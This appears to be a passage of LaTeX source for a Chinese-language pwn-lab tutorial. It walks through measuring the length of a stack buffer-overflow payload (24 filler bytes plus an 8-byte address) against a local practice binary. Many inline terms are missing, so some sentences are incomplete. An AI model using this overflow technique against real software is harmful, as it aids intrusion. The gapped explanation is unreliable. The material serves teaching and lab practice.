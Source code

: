 \documentclass[UTF8,12pt,oneside]{ctexbook}
\begin{document}
\begin{enumerate}[label=\arabic*.]
\item 亲自动手核对字节数。先看清  与  送出的字节数差别（）：
\begin{lstlisting}
cd ~/pwn-lab && printf AAAA | wc -c
cd ~/pwn-lab && echo AAAA | wc -c
cd ~/pwn-lab && echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | wc -c
cd ~/pwn-lab && wc -c payload.bin
\end{lstlisting}
应该看到  是 4 字节，而  是 5 字节—— 会额外补一个换行符；所以“敲 32 个  再 ”实际送出的是 33 字节。最后一条  显示 ，这才是能送进程序的输入。。
\item 再做一次长度实验：把 32 字节的 payload 剪短、加长，看程序分别怎么反应（）：
\begin{lstlisting}
cd ~/pwn-lab && head -c 31 payload.bin > p31.bin && cp payload.bin p33.bin && printf X >> p33.bin && wc -c p31.bin payload.bin p33.bin
cd ~/pwn-lab && ./overflow < p31.bin && echo 31 bytes OK
cd ~/pwn-lab && ./overflow < p33.bin && echo 33 bytes OK
cd ~/pwn-lab && ./overflow < payload.bin && echo 32 bytes OK
cd ~/pwn-lab && printf AAAAAAAAAAAAAAAAAAAAAAAAA | ./overflow && echo 25 bytes A-fill no flag no Try again
cd ~/pwn-lab && printf AAAAAAAAAAAAAAAAAAAA | ./overflow && echo 20 bytes still the normal branch
\end{lstlisting}
这张图要逐段读，它解释了“为什么规矩是 32”：
\begin{itemize}
\item 前四条： 是  的前 31 字节（24 个  加地址的高 7 位）， 是在 32 字节后再补一个 ；31、32、33 三个长度；
\item 但只有 32 是“把 8 字节地址完整写满”。31 能成功，是因为指针原来的最高字节本来就是 （ 与  都在  段， 末 8 字节里那一串  就是证据）；33 “没炸”，是因为多出的那个字节盖到了栈上保存的  低字节，本次恰好没造成可见后果；
\item 最后两条是“长度不对”的另两种典型现象：25 个 （首字节被改成无效值 ）只打印 ，——程序跳去了别处；20 字节没碰到指针，走正常分支打印 。
\end{itemize}
结论：31 与 33 的成功是（地址高位本来就是 0、多写的那个字节恰好无害），换一个地址或换一种栈布局立刻失效；能成功的是“偏移 0--23 填满、偏移 24--31 写完整 8 字节地址”，也就是恰好 32 字节。

\end{enumerate}
\end{document}

